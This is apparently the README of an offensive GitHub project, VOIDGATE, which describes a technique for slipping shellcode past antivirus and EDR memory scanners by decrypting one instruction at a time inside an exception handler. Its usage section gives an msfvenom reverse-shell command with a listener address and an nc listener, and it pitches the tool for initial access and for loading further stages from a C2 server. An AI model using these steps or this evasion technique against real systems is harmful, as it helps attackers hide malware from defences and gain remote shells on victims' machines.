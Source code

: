 

# VOIDGATE
### Description:
A technique that can be used to `bypass AV/EDR memory scanners`. This can be used to hide well-known and detected shellcodes (such as msfvenom) by performing `on-the-fly decryption of individual encrypted assembly instructions`, thus rendering memory scanners useless for that specific memory page.
_______________

### How it works:
This technique will create a `PAGE_EXECUTE_READWRITE` memory region where the encrypted assembly instructions will be stored. The shellcode will be wrapped around some padding. The program will set a `Hardware Breakpoint` (HWBP) on the entrypoint of the shellcode.

Next, the program will install a `Vectored Exception Handler` (VEH). This VEH will basically act like a `debugger`, single stepping through the code, reading the instruction pointer register (RIP) for each `SINGLE STEP` exception received by the VEH, and decrypting the next 16 bytes (maximum x64 assembly instruction length) where RIP points . The VEH also encrypts back the previously decrypted instruction, ensuring that the rest of the shellcode stays always encrypted with the exception of the single assembly instruction currently executed. After that, it will continue execution, with the `TRAP FLAG` configured on the Eflags register. This will ensure that the next assembly instruction will also trigger a breakpoint exception that the VEH can handle.

 After that, the `main thread` execution will be redirected to the `payload entrypoint`. When the HWBP will be triggered at the entrypoint, the VEH will stop at each assembly instruction executed, perform the decryption of the next assembly instruction and encrypt the previous encrypted instruction which is saved as a global variable.

By doing this, basically `one single assembly instruciton is decrypted at a time`, with the rest of the `payload staying encrypted`.
____

### Limitations:
`NOTE:` This technique is ideal to obtain an initial access using a basic shellcode such as msfvenom or custom revers shells. This can also be used as an initial stage 1 payload that downloads the rest of the payload from the C2 server.

`NOTE:` This technique is not compatible with all payloads (such as reflective loaders) . Below is a list of current limitations:

* 1.) Since the `VEH` will trigger for `EACH ASSEMBLY INSTRUCTION` executed in the shellcode, the execution speed of the shellcode will be drastically slowed down. For each assembly instruction the CPU executes, the VEH will execute at least an additional 300 ASM instructions to perform the decryption, encryption and restore execution to the main thread. If the given shellcode is optimized for smaller size over performance (such as msfvenom), payload execution will be slower. It can take over 15 seconds (depending on the CPU) to execute an MSFVENOM. This happens since the specific shellcode used by msfvenom is sacrificing performance to obtain smaller payload size.
* 2.) If the shellcode calls `NtCreateThread` or any of its wrappers in Kernelbase.dll with the `entrypoint inside the shellcode`, the payload will `not work` since the VEH will not trigger for that thread execution since there is `no HWBP installed at the entrypoint of the newly created thread`. (Work in progress - will be implemented further in this repo)
* 3.) If the shellcode has some `values/variables stored inside itself` (for example, having the raw string "powershell.exe" that is referenced via an offset in a call to WinExec WINAPI) or some number `saved at an offset`, and the shellcode will later try to load or reference it somewhere, the program will not work since the specific variable or string `will be encrypted` and the VEH does not decrypt it. If the shellcode pushes such arguments on the stack via assembly instructions (`push 0x4141414141414141` to push "AAAAAAAA" on the stack to be used in a call to a function), this technique will work. (Work in progress - will be implemented further in this repo)
_____
### Usage:
 
How to reproduce the POC:

* 1.) Create your msfvenom payload:
```
 msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.100.33 LPORT=443 -f raw > shell.asm
```
* 2.) Use the XorEncryptPayload.exe to XOR encrypt the payload
```
./XorEncryptPayload.exe C:\Path\to\shell.asm
```
* 3.) Update it inside the main.cpp of Voidgate project
* 4.) Ensure the xor key matches the encryptor and Voidgate project
* 5.) Ensure your listener is waiting for the shellcode
```
nc -nvlp 443
```
* 6.) Execute Voidgate.exe
____
### Demo:

![](https://github.com/vxCrypt0r/voidgate/blob/master/poc.gif)

________

### Disclaimer
This repository is for academic purposes, the use of this software is your responsibility.
